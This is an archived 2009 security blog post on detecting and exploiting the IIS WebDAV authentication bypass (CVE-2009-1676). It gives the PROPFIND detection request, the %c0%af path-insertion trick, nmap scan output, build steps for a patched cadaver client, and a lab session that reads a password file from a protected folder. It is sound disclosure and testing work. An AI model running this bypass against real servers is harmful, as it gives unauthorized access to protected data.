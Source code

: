 ```yaml
---
id: 292
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T18:01:52-05:00'
author: Andrew
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=292'
permalink: '/?p=292'
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability ([CVE-2009-1676](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676)) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is \_not\_ protected then it's time to break out the funky cold medina and have some fun.

## Detecting if WebDAV is enabled

Tested working on  
\* IIS 6.0/Windows 2003 Enterprise SP2  
\* IIS 5.1/Windows XP Pro SP2  
\* IIS 5.0/Windows 2000 SP4

On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

```

PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

<?xml version="1.0" encoding="utf-8"?>
<propfind xmlns="DAV:">
<prop>
<getcontentlength xmlns="DAV:"/>
<getlastmodified xmlns="DAV:"/>
<executable xmlns="http://apache.org/dav/props/"/>
<resourcetype xmlns="DAV:"/>
<checked-in xmlns="DAV:"/>
<checked-out xmlns="DAV:"/>
</prop>
</propfind>
```

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.

## Checking if a server is vulnerable

Tested working on  
\* IIS 6.0/Windows 2003 Enterprise SP2  
\* IIS 5.1/Windows XP Pro SP2

Tested not working on  
\* IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.

## Finding a vulnerable server and exploiting it

Tested working on

- IIS 6.0/Windows 2003 Enterprise SP2
- IIS 5.1/Windows XP Pro SP2

Tested not working on

- IIS 5.0/Windows 2000 SP4

Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

```

> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
```

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

## Exploit it!

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called [cadaver](http://www.webdav.org/cadaver/), and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) and after hacking away at it for awhile, we came up with a little patch that makes it quite easy to exploit a server. Check the patch itself for the gritty details but basically it does the following:

1\) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)  
2\) Append the header "Translate: f" to every request (otherwise get and probably others won't work)  
3\) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the cadaver-0.23.2-h4x.patch and apply it to the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) from the [cadaver website](http://www.webdav.org/cadaver/). Here's the commands:

```

> mkdir cadaver-h4x
> cd cadaver-h4x
> wget patch
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1  ./configure
--snip--
> make
--snip--
```

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

```

> ./cadaver xxx.xxx.xxx.xxx
```

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

```

dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
```

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:  
\* CD  
\* LS  
\* MOVE  
\* PUT  
\* GET  
\* CAT  
\* DELETE

Oddly enough, the **COPY** command does **NOT** work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca